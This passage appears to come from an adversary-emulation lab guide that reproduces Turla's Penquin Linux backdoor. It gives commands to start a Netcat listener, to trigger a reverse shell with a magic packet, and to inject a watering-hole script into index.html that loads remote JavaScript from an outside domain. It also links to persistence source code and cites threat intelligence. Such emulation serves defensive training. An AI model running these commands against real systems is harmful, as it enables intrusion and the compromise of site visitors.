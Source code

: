* In the new tab, set up a Netcat listener for Penquin's reverse shell to connect to:

```bash
nc -lvvp 8081
```

* Open up another terminal tab and name this one to `Packet Sender`. Run the following commands to send the magic packet to the Apache server using
the `sendPacket.py` utility.

```bash
cd /opt/day1/turla
sudo -E python3 Resources/Penquin/sendPacket.py --handler_ip 176.59.15.33 --handler_port 8081 --target_ip 10.20.10.23 --target_port 8080 --payload_type base64
```

* Wait a few seconds and then check the Netcat tab (`Penquin NC`). The Netcat prompt should report a successful connection.

* In the terminal where the reverse shell has connected to the Netcat listener, paste the following command to add the
 watering hole redirection to index.html:

```bash
echo "<script>if (document.getElementById('xyz')) {{}} else {{ var gam = document.createElement('script'); gam.type = 'text/javascript'; gam.async = true; gam.src = ('http://anto-int.com/counter.js'); var sm = document.getElementsByTagName('script')[0]; sm.parentNode.insertBefore(gam, sm); var fl = document.createElement('span'); fl.id = 'xyz'; var d =  document.getElementsByTagName('div')[0]; d.parentNode.insertBefore(fl, d);}}</script>" >> /var/www/html/index.html
```

* Wait 1 minute and then send the following command to close the reverse shell

```bash
exit
```

### :moyai: Source Code

* [Penquin](../../Resources/Penquin/) ([Network Sniffer](../../Resources/Penquin/sniff.c) & [Penquin Installer](../../Resources/Penquin/main.c))
  * [Writes the sniffer (Penquin) to disk](../../Resources/Penquin/main.c#L220)
  * [Moves Penquin to /usr/bin](../../Resources/Penquin/main.c#L121)
  * [Creates a service file](../../Resources/Penquin/main.c#L173)
  * [Stops cron service](../../Resources/Penquin/main.c#L143)
  * [Executes Penquin as cron](../../Resources/Penquin/main.c#L198)
  * [Real cron starts as child process](../../Resources/Penquin/sniff.c#L198)
  * [Installs packet sniffer on eth0](../../Resources/Penquin/sniff.c#L482)
  * [Magic packet filter criteria](../../Resources/Penquin/sniff.c#L437-L442)
  * [Execute reverse shell](../../Resources/Penquin/sniff.c#L405)
  * [sendPacket.py](../../Resources/Penquin/sendPacket.py)

### :microscope: Cited Intelligence

* <https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+%E2%80%9CPenquin_x64%E2%80%9D.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/07180251/Penquins_Moonlit_Maze_PDF_eng.pdf>
* <https://securelist.com/the-penquin-turla-2/67962/>
* <https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s>
* <https://lab52.io/blog/looking-for-penquins-in-the-wild/>
* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
